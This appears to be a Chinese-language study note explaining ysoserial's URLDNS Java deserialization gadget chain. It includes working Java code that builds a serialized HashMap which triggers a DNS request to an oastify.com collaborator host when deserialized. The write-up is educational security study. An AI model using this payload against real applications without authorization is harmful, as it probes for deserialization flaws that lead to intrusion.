 

### 尝试一下URLDNS调用链

[https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)

以ysoserial的URLDNS调用链为例（Gadget Chain）：

```java
HashMap.readObject()  
HashMap.putVal()  
HashMap.hash()  
URL.hashCode()  
```
入口类是HashMap，putVal()放入一个键值对时调用URL对象的计算hash方法URL.hashCode()中发起请求。
![Pasted image 20231225161940.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020231225161940.png)

hashmap的put方法调用hash()方法
![Pasted image 20231225162004.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020231225162004.png)
hash方法会返回对象的hashcode
![Pasted image 20231225162008.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020231225162008.png)
若url对象的hashCode为-1时，会调用handler.hashCode()方法
![Pasted image 20231225162012.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020231225162012.png)
handler.hashCode()方法会在getHostAddress(u)这里产生一个dns请求
![Pasted image 20231225162018.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020231225162018.png)
但序列化的过程中会产生一个问题：

hashmap.put(url,1);这一步对象url的hashcode会被计算出来，不为-1，那么在其反序列化时不会调用handler.hashCode()方法，所以需要使用反射修改对象的私有属性hashCode。代码如下：

```java
public class Serialize {
    public static void serialize(Object obj) throws IOException {
        try
        {
            FileOutputStream fileOut = new FileOutputStream("./data.obj");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(obj);
            out.close();
            fileOut.close();
            System.out.print("./data.obj");
        }catch(IOException ex)
        {
            ex.printStackTrace();
        }
    }
    public static void main(String [] args) throws Exception {
        HashMap<URL,Integer> hashmap=new HashMap<URL,Integer>();
        URL url = new URL("http://p5vw6gy7y7h458eoewi909g0erkh86.oastify.com");
        // 通过反射，改变已有对象（url）的属性
        Class<? extends URL> c = url.getClass();
        // hashCode为其私有属性
        Field hashCodeField=c.getDeclaredField("hashCode");
        // 设置hashCode属性可访问
        hashCodeField.setAccessible(true);
        hashCodeField.set(url,123);
        hashmap.put(url,1);
        // 修改hashCode为-1，使其反序列化时成功调用handle.hashCode()
        hashCodeField.set(url,-1);
        serialize(hashmap);
    }
}
```
